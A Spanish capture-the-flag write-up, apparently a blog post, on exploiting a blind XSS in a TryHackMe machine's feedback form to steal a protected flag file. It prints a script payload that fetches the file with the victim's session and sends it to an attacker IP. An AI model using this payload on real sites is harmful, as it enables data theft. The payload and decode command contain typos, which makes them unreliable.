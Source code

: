```yaml
---
title: "HackTheBox - Test"
description: "Solo un testeo de carpetas del blog, nada raro."
date: "2025-03-15"
tags:
  - HackTheBox
---
```


---

## Introduction

En este WriteUp de la máquina TheStickerShop de la plataforma de **[TryHackMe](https://tryhackme.com)** se analizó un servidor con los puertos **22/tcp (SSH)** y **8080/tcp (HTTP)** abiertos. Si bien no se detectaron vulnerabilidades en el servicio SSH, en el servidor web por otro lado se identificó una vulnerabilidad de **XSS (Cross-Site Scripting)** en el formulario de la sección `Feedback`, que permitió ejecutar código JavaScript malicioso en el navegador. Esto se explotó para realizar **data exfiltration** del archivo protegido `flag.txt`.

~~~
Platform: TryHackMe
Level: Easy
OS: Linux
~~~

## Reconnaissance

~~~
Target IP: 10.10.127.143
~~~

>  La tienda local de pegatinas finalmente ha desarrollado su propia página web. No tienen demasiada experiencia con respecto al desarrollo web, por lo que decidieron desarrollar y alojar todo en la misma computadora que usan para navegar por Internet y observar los comentarios de los clientes. ¡Movimiento inteligente!
> 
> Puedes leer la bandera en `http://10.10.127.143:8080/flag.txt`?

![sticker](https://yw4rf.vercel.app/_astro/sticker-0.C5tfA9UU_Z29I4MF.webp)

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**

![sticker](https://yw4rf.vercel.app/_astro/sticker-1.p1q49Toi_Blevo.webp)

## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:

![sticker](https://yw4rf.vercel.app/_astro/sticker-2.DUiLStc7_Z13bRhh.webp)

Se encontraron los puertos abiertos **22/tcp** y **8080/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:

![sticker](https://yw4rf.vercel.app/_astro/sticker-3.D7ZqTVeH_qbtKw.webp)

## Enumeration

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)`.

- No se identificaron vulnerabilidades conocidas en esta versión del servicio.
- Este puerto fue descartado como vector de ataque para esta etapa.

### 8080/tcp HTTP

El puerto **8080/tcp** aloja un servidor web identificado como `http-proxy Werkzeug/3.0.1 Python/3.9.10`.

- Al navegar a la URL principal, encontramos un sitio web dedicado a la venta de stickers de gatos.
- La página presenta dos secciones principales: `Home` y `Feedback`.

Al acceder a la sección `Home` no se observaron elementos interactivos relevantes ni indicios de vulnerabilidades explotables.

![sticker](https://yw4rf.vercel.app/_astro/sticker-4.DHV-TwtV_Z1if1LX.webp)

Al acceder a la sección `Feedback` se muestra un formulario que permite a los usuarios enviar comentarios.

![sticker](https://yw4rf.vercel.app/_astro/sticker-5.Di1qMJxl_55Wnt.webp)

Al intentar acceder a la URL `http://10.10.127.143:8080/flag.txt` devolvió un error **401 Unauthorized**, lo que indica que el acceso al archivo está restringido.

![sticker](https://yw4rf.vercel.app/_astro/sticker-6.6RZ-rWan_s8FPy.webp)

En el formulario de la sección `Feedback` exploramos posibles vulnerabilidades. En particular **Cross-Site Scripting (XSS)**, dado que los formularios son un vector común para este tipo de ataque.

En primer lugar, niciamos un servidor HTTP en el puerto **80** de nuestra máquina atacante para recibir posibles solicitudes: `sudo python3 -m http.server 80`

![sticker](https://yw4rf.vercel.app/_astro/sticker-7.l7jfW_-F_2smaz8.webp)

Luego, en el formulario de `Feedback`, enviamos el siguiente payload: `<img src="http://10.21.66.133/test">`. Este código intenta cargar una imagen desde nuestro servidor. Si el navegador del objetivo procesa el payload, el servidor HTTP recibiría una solicitud GET.

![sticker](https://yw4rf.vercel.app/_astro/sticker-8.D7WWDPmP_Z19ziEz.webp)

Al verificar el servidor de escucha, se observó una solicitud entrante, lo que confirma que el payload fue ejecutado exitosamente por el navegador de la víctima.

![sticker](https://yw4rf.vercel.app/_astro/sticker-9.DNVPWwuA_SPMNl.webp)

## Exploitation

Confirmada la vulnerabilidad, utilizamos un payload más avanzado para extraer el contenido del archivo `flag.txt` y enviarlo a nuestro servidor:

~~~JS
<script>
	fetch("/flag.txt", { method: 'GET', mode: 'no-cors', credentials: 'same-origin'})
		.then(response => response.test())
		.then(data => {
			let img = new Image();
			img.src = "http://10.21.66.133:80/" + btoa(data);
		});
</script>
~~~

- `fetch("/flag.txt", {...})`
    - Solicita el archivo `flag.txt` utilizando las credenciales de la sesión activa del navegador.
    - El modo `'no-cors'` evita restricciones relacionadas con políticas de origen cruzado, permitiendo que la solicitud sea procesada por el servidor.
- `.then(response => response.text())`
    - Convierte la respuesta obtenida (el contenido del archivo) en texto legible.
- `btoa(data)`
    - Codifica el texto en Base64 para evitar problemas al enviarlo como parte de una URL.
- `let img = new Image(); img.src = "http://10.21.66.133:80/" + btoa(data);`
    - Crea un objeto de imagen que realiza una solicitud GET a nuestro servidor con el contenido codificado como parte de la URL.
    - Este enfoque garantiza que los datos extraídos sean enviados a nuestro servidor incluso con restricciones de CORS.

![sticker](https://yw4rf.vercel.app/_astro/sticker-10.Bk0mJmKz_1gp1F3.webp)

Al ejecutar el payload, nuestro servidor recibió una solicitud con el contenido del archivo `flag.txt` codificado en Base64.

![sticker](https://yw4rf.vercel.app/_astro/sticker-11.CIJ7DOrV_1c6QiC.webp)

Decodificamos el contenido usando el siguiente comando: `echo "<TEXTO EN BASE64> | base64 --decode"`  

![sticker](https://yw4rf.vercel.app/_astro/sticker-12.YZBRt0rd_ZL0wm1.webp)

ROOTED